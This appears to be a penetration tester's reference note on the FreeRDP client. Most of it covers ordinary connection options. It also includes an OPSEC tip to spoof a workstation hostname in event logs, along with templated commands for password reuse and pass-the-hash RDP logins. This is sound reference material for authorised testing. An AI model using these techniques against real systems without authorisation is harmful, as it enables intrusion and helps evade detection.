 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploits
  - network-protocols
  - windows
  - linux
---
```

# FreeRDP

## 01 - OPSEC Consideration

Change your Linux hostname to the same target workstation to spoof the event logs.

![[Change Hostname#^09eb5b]]

Then apply changes.

![[Change Hostname#^153cb6]]

## 02 - Authenticate RDP

Choose keyboard layout that is familiar to you and then specify the `/kbd:0x<layout_id>` or `/kbd:US` flag.

```
$ xfreerdp /kbd-list
```

Fullscreen (the shortcut is `CTRL + ALT + Enter`) to toggle it.

```
$ xfreerdp /f
```

Drag resolution screen

```
$ xfreerdp /dynamic-resolution
```

Force specific protocol security. Older operating systems specify `/sec:rdp` and for modern operating system specify `/sec:tls` or `/sec:nla`.

```
$ xfreerdp /sec:<rdp | tls | nla>
```

Ignore certification

```
$ xfreerdp /cert:ignore
```

Reuse passwords

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /p:"<password>" /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /p:"<password>" /v:<IP>:[<PORT>]
```

Pass the Hash

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /pth:<nt_hash> /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /pth:<nt_hash> /v:<IP>:[<PORT>]
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|Vulnerability Assessment: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Graphical Remote Program/RemoteKeyStrokes|Initial Access: RemoteKeyStrokes]]

### Github

- [awakecoding: FreeRDP User Manual](https://github.com/awakecoding/FreeRDP-Manuals/blob/master/User/FreeRDP-User-Manual.markdown)

### Hacktricks

- [Hacktricks: Pentesting RDP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html)